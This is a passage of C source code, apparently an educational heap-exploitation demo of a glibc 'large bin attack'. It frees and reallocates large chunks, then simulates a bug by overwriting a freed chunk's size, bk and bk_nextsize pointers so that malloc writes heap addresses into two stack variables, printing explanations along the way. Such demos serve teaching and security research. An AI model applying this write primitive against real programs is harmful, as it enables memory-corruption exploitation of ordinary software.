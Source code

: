 ```c
    fprintf(stderr, "And allocate another fastbin chunk in order to avoid consolidating the next large chunk with"
           " the second large chunk during the free()\n\n");
    malloc(0x20);

    unsigned long *p3 = malloc(0x500);
    fprintf(stderr, "Finally, we allocate the third large chunk on the heap at: %p\n", p3 - 2);
 
    fprintf(stderr, "And allocate another fastbin chunk in order to avoid consolidating the top chunk with"
           " the third large chunk during the free()\n\n");
    malloc(0x20);
 
        // 1
    free(p1);
        // 2
    free(p2);
    fprintf(stderr, "We free the first and second large chunks now and they will be inserted in the unsorted bin:"
           " [ %p <--> %p ]\n\n", (void *)(p2 - 2), (void *)(p2[0]));
        // 3
    malloc(0x90);
    fprintf(stderr, "Now, we allocate a chunk with a size smaller than the freed first large chunk. This will move the"
            " freed second large chunk into the large bin freelist, use parts of the freed first large chunk for allocation"
            ", and reinsert the remaining of the freed first large chunk into the unsorted bin:"
            " [ %p ]\n\n", (void *)((char *)p1 + 0x90));

        // 4
    free(p3);
    fprintf(stderr, "Now, we free the third large chunk and it will be inserted in the unsorted bin:"
           " [ %p <--> %p ]\n\n", (void *)(p3 - 2), (void *)(p3[0]));
 
    //------------VULNERABILITY-----------

    fprintf(stderr, "Now emulating a vulnerability that can overwrite the freed second large chunk's \"size\""
            " as well as its \"bk\" and \"bk_nextsize\" pointers\n");
    fprintf(stderr, "Basically, we decrease the size of the freed second large chunk to force malloc to insert the freed third large chunk"
            " at the head of the large bin freelist. To overwrite the stack variables, we set \"bk\" to 16 bytes before stack_var1 and"
            " \"bk_nextsize\" to 32 bytes before stack_var2\n\n");
        // 5
    p2[-1] = 0x3f1;
    p2[0] = 0;
    p2[2] = 0;
    p2[1] = (unsigned long)(&stack_var1 - 2);
    p2[3] = (unsigned long)(&stack_var2 - 4);

    //------------------------------------
        // 6
    malloc(0x90);
 
    fprintf(stderr, "Let's malloc again, so the freed third large chunk being inserted into the large bin freelist."
            " During this time, targets should have already been rewritten:\n");

    fprintf(stderr, "stack_var1 (%p): %p\n", &stack_var1, (void *)stack_var1);
    fprintf(stderr, "stack_var2 (%p): %p\n", &stack_var2, (void *)stack_var2);

```